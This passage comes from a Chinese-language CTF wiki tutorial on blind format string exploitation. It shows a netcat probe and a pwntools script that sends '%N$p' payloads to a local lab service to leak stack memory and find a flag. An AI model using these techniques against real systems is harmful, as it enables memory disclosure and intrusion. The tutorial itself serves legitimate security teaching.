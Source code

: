 需要注意的是，這樣並不能穩定得到 shell，因爲我們一次性輸入了太長的字符串。但是我們又沒有辦法在前面控制所想要輸入的地址。只能這樣了。

爲什麼需要打印這麼多呢？因爲格式化字符串不在棧上，所以就算我們得到了需要更改的ebp的地址，也沒有辦法去把這個地址寫到棧上，利用$符號去定位他；因爲沒有辦法定位，所以沒有辦法用l\ll等方式去寫這個地址，所以只能打印很多。

## 格式化字符串盲打

### 原理

所謂格式化字符串盲打指的是隻給出可交互的 ip 地址與端口，不給出對應的 binary 文件來讓我們進行 pwn，其實這個和 BROP 差不多，不過 BROP 利用的是棧溢出，而這裏我們利用的是格式化字符串漏洞。一般來說，我們按照如下步驟進行

- 確定程序的位數
- 確定漏洞位置 
- 利用

由於沒找到比賽後給源碼的題目，所以自己簡單構造了兩道題。

### 例子1-泄露棧

源碼和部署文件均放在了對應的文件夾 [fmt_blind_stack](https://github.com/ctf-wiki/ctf-challenges/tree/master/pwn/fmtstr/blind_fmt_stack) 中。

#### 確定程序位數

我們隨便輸入了 %p，程序回顯如下信息

```shell
➜  blind_fmt_stack git:(master) ✗ nc localhost 9999
%p
0x7ffd4799beb0
G�flag is on the stack%                          
```

告訴我們 flag 在棧上，同時知道了該程序是 64 位的，而且應該有格式化字符串漏洞。

#### 利用

那我們就一點一點測試看看

```python
from pwn import *
context.log_level = 'error'


def leak(payload):
    sh = remote('127.0.0.1', 9999)
    sh.sendline(payload)
    data = sh.recvuntil('\n', drop=True)
    if data.startswith('0x'):
        print p64(int(data, 16))
    sh.close()


i = 1
while 1:
    payload = '%{}$p'.format(i)
    leak(payload)
    i += 1

```
